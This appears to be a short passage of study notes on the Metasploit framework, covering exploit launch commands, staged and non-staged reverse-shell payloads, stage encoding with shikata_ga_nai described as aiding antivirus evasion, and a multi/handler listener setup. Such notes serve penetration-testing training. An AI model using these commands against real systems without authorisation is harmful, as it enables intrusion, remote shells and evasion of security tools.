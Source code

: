 - Verify the host is vulnerable

```
check
```

- Exploit the target

```
exploit
```

- The -j flag passed to exploit will run it in the background if you want to do other things while waiting for the connection. 

```
exploit -j
```



### Types of Payload

- Staged and Non Staged
- Non-staged
  - 	sent with the exploits
  - 	shell_reverse_tcp is non-staged
- staged
  - sent in two parts
    - 			primary payload stager that retrieves the second payload
    - 			second payload with the shellcode that executes
  - 			Better for bypassing AV 
  - 			Shellcode is injected directly into memory 
  - 			shell/reverse_tcp is staged

### Encoding Second Stage

- Second stage can be encoded

```
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
```



## Handlers

- multi/handler
  - handles exploits launched outside of the framework

```
use exploit/multi/handler 
set payload payload/to/expect
set LHOST <local IP>
set LPORT <local PORT>
exploit
```
